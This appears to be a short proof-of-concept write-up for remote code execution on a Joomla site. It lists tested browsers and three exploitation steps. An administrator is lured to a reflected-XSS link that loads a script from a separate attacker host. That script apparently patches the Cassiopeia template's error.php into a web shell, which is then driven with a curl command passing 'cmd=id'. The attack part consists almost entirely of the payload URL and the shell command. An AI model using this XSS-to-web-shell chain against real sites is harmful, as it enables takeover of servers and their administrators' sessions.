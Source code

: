 # [RCE] Patch File

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. victim user (with administrative privileges) logs in

http://192.168.5.19/administrator

2. victim user clicks link

```
http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.13/patchFileJoomla.js></script>
```

3. execute OS command

```
curl "http://192.168.5.19/templates/cassiopeia/error.php?pass=test&cmd=id"
```


## Screenshots

![Image](screenshots/Joomla_-_patch_file_-_1-1.png)
